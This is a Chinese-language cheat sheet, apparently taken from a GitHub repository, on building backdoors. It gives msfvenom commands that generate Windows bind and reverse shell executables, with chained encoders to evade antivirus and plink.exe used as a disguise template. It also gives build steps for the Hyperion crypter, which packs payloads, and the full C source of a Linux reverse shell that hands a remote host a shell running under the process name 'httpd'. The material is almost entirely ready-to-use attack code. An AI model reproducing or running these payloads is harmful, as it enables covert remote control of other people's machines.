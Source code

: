 

# 基础

* msfvenom

* Hyperion

* 自己编写后门

## msfvenom

* 生成反弹shell
```shell 
msfvenom -p windows/shell/bind_tcp lhost=1.1.1.1 lport=4444 -a x86 --platform win -f exe -o a.exe
```

* 加密编码反弹shell
``` 
msfvenom -p windows/shell/bind_tcp lhost=1.1.1.1 lport=4444 -f raw -e    x86/shikata_ga_nai -i 5 | msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -b '\x00' -f exe -o a.exe
```

* 利用模板隐藏shell
``` 
msfvenom -p windows/shell_reverse_tcp -x /usr/share/windows-binaries/plink.exe lhost=1.1.1.1 lport=4444 -a x86 --platform win -f exe -o a.exe
msfvenom -p windows/shell/bind_tcp -x /usr/share/windows-binaries/plink.exe lhost=1.1.1.1 lport=4444 -e x86/shikata_ga_nai -i 5 -a x86 --platform win -f exe > b.exe
```


## Hyperion
> Crypter / Container（解密器+PE Loader）  
>  https://github.com/nullsecuritynet/tools/raw/master/binary/hyperion/release/Hyperion-1.2.zip
```
// shell
unzip Hyperion-1.2.zip
cd Hyperion-1.2 && i686-w64-mingw32-g++ -static-libgcc -static-libstdc++Src/Crypter/*.cpp -o h.exe
dpkg --add-architecture i386 && apt-get update && apt-get install wine32
msfvenom -p windows/shell/reverse_tcp lhost=192.168.1.15 lport=4444 --platform win -e x86/shikata_ga_nai -a x86 -f exe -o a.exe
wine h.exe a.exe b.exe
```


## 自己编写后门

* Windows reverse shell
``` 
// shell
wine gcc.exe windows.c -o windows.exe -lws2_32
```

* Linux shell
``` 
// shell
gcc linux_revers_shell.c -o linux
```
``` 
// linux_revers_shell.c
  #include <stdio.h>
  #include <sys/socket.h>
  #include <arpa/inet.h>
  #include <stdlib.h>
  #include <string.h>
  #include <unistd.h>
  #include <netinet/in.h>
 
  int main(int argc, char *argv[])
  {
      struct sockaddr_in sock;
      int s;
      if (argc != 3)
      {
          fprintf(stderr, "uso: <rhost> <rport>\n"); exit(1);
      }
      sock.sin_family  = AF_INET;
      sock.sin_port = htons(atoi(argv[2]));
      sock.sin_addr.s_addr = inet_addr(argv[1]);
      s = socket(AF_INET, SOCK_STREAM, 0);
      
      connect(s,(struct sockaddr_in *)&sock, sizeof(struct sockaddr_in));
      
      dup2(s,0);
      dup2(s,1);
      dup2(s,2);
      execl("/bin/sh","httpd",(char *)0); //precess httpd
  }

```